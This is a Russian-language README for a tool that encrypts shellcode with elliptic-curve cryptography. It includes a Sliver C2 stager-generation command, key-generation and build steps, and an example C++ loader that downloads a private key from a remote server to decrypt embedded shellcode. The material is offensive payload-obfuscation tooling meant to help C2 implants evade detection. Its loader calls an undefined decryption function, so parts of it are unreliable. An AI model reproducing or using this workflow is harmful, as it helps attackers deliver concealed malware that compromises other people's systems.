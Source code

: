 ## Этот код поможет вам зашифровать свой shellcode с использованием метода эллиптических кривых.

**Requirements**
g++

if not install

```bash
apt install g++
```

openssl v3.1
sliver(or other c2)
libssl-dev 

```bash
libssl-dev
```

**Подготовка**
Сгенерируйте shellcode в формате **.bin.** Для этого вы можете использовать Bishop Fox Sliver в качестве C2, чтобы создать shellcode:

```bash
sliver> generate stager --lhost ip --lport 8443 --arch amd64 --format shellcode
```

При необходимости вы также можете использовать дополнительные параметры.

Сгенерируйте **.pem** ключи с помощью OpenSSL:

```bash
openssl ecparam -name prime256v1 -genkey -noout -out ecc-key.pem
```
```bash
openssl ec -in ecc-key.pem -pubout -out ecc-public.pem
```

Клонируйте репозиторий с кодом для шифрования:


```bash
git clone github.com/wearetyomsmnv/ec_encoder_cpp
```

## Компиляция кода ##

Скомпилируйте код с помощью g++:

```bash
g++ ec_encoder.cpp -o encrypt_shellcode -lcrypto
```

## Запуск шифрования ##

**Запустите программу для шифрования:**

```bash
./encrypt_shellcode shellcode.bin ecc-public.pem
```

Где:

**shellcode.bin** - это файл с shellcode, полученный из Sliver (имя может отличаться).

**ecc-public.pem** - это открытый ключ.

## Как использовать это в реальном проекте ##

```c++
#include <iostream>
#include <openssl/evp.h>
#include <openssl/ec.h>
#include <openssl/err.h>
#include <openssl/pem.h>
#include <openssl/x509.h>
#include <curl/curl.h>

// Адрес сервера, предоставляющего .pem
static const char* SERVER_URL = "https://example.com/private-key.pem";

// Здесь должен быть ваш зашифрованный шеллкод
static const unsigned char encrypted_shellcode[] = {
    0xYY, 0xYY, 0xYY, ... // Зашифрованный шеллкод в формате байтов
};

// Функция обратного вызова для получения данных с сервера через libcurl
static size_t write_callback(void *contents, size_t size, size_t nmemb, void *userp) {
    std::string *buffer = reinterpret_cast<std::string*>(userp);
    size_t total_size = size * nmemb;
    buffer->append(static_cast<char*>(contents), total_size);
    return total_size;
}

int main() {
    OpenSSL_add_all_algorithms();
    ERR_load_crypto_strings();
    curl_global_init(CURL_GLOBAL_DEFAULT);

    // Инициализация сессии libcurl
    CURL *curl = curl_easy_init();
    if (!curl) {
        std::cerr << "Ошибка при инициализации сессии libcurl" << std::endl;
        return 1;
    }

    // Установка URL для запроса
    curl_easy_setopt(curl, CURLOPT_URL, SERVER_URL);

    // Создание буфера для хранения полученного PEM-файла
    std::string pem_data;

    // Установка функции обратного вызова для записи данных
    curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_callback);
    curl_easy_setopt(curl, CURLOPT_WRITEDATA, &pem_data);

    // Выполнение запроса
    CURLcode res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        std::cerr << "Ошибка при выполнении запроса: " << curl_easy_strerror(res) << std::endl;
        curl_easy_cleanup(curl);
        return 1;
    }

    // Закрытие сессии libcurl
    curl_easy_cleanup(curl);

    // Преобразование PEM-данных в структуру ключа
    BIO *bio = BIO_new_mem_buf(pem_data.c_str(), -1);
    EC_KEY *key = PEM_read_bio_ECPrivateKey(bio, nullptr, nullptr, nullptr);
    if (!key) {
        std::cerr << "Ошибка при чтении приватного ключа из PEM-данных" << std::endl;
        BIO_free(bio);
        return 1;
    }
    BIO_free(bio);

    // Расшифрование с использованием приватного ключа
    size_t encrypted_len = sizeof(encrypted_shellcode);
    unsigned char decrypted[1024]; // Буфер для расшифрованных данных
    int decrypted_len = ECIES_decrypt(key, encrypted_shellcode, encrypted_len, decrypted, sizeof(decrypted));

    // Вывод расшифрованных данных
    std::cout << "Decrypted Data:" << std::endl;
    for (int i = 0; i < decrypted_len; ++i) {
        std::cout << std::hex << (int)decrypted[i];
    }
    std::cout << std::endl;

    // Освобождение ресурсов
    EC_KEY_free(key);

    // Очистка библиотеки OpenSSL
    ERR_free_strings();
    curl_global_cleanup();

    return 0;
}


```
